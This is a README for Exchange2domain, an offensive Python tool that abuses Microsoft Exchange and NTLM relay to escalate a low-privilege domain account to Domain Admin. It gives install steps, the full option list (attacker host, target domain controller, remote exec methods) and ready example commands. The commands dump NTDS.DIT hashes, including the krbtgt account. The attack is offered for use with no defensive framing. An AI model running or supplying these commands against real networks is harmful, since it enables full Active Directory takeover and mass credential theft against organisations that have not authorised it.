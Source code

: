 # Exchange2domain

[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/) 

All in One tools of [privexchange](https://github.com/dirkjanm/privexchange/) . You only need to open the web server port, so **no high privileges are required**.

Great writeup! [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: Exchange2domain.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                          [--hashes HASHES] [--no-ssl]
                          [--exchange-port EXCHANGE_PORT] -ah ATTACKER_HOST
                          [-ap ATTACKER_PORT] -th TARGET_HOST
                          [-exec-method [{smbexec,wmiexec,mmcexec}]]
                          [--exchange-version EXCHANGE_VERSION]
                          [--attacker-page ATTACKER_PAGE]
                          [--just-dc-user USERNAME] [--debug]
                          HOSTNAME

Exchange your privileges for Domain Admin privs by abusing Exchange. Use me
with ntlmrelayx

positional arguments:
  HOSTNAME              Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --no-ssl              Don't use HTTPS (connects on port 80)
  --exchange-port EXCHANGE_PORT
                        Alternative EWS port (default: 443 or 80)
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -ap ATTACKER_PORT, --attacker-port ATTACKER_PORT
                        Port on which the relay attack runs (default: 80)
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --exchange-version EXCHANGE_VERSION
                        Exchange version of the target (default: Exchange2013,
                        choices:Exchange2010,Exchange2010_SP1,Exchange2010_SP2
                        ,Exchange2013,Exchange2013_SP1,Exchange2016)
  --attacker-page ATTACKER_PAGE
                        Page to request on attacker server (default:
                        /privexchange/)
  --just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach.
  --debug               Enable debug output
```

example:
```
python Exchange2domain.py -ah attackterip   -ap listenport -u user -p password -d domain.com -th DCip MailServerip 
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190129132650.png)



If you only want to dump `krbtgt`, use `--just-dc-user`.

example:
```
python Exchange2domain.py -ah attackterip -u user -p password -d domain.com -th DCip  --just-dc-user krbtgt MailServerip
```

## Update

Auto backup old SD for restore.

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190621191722.png)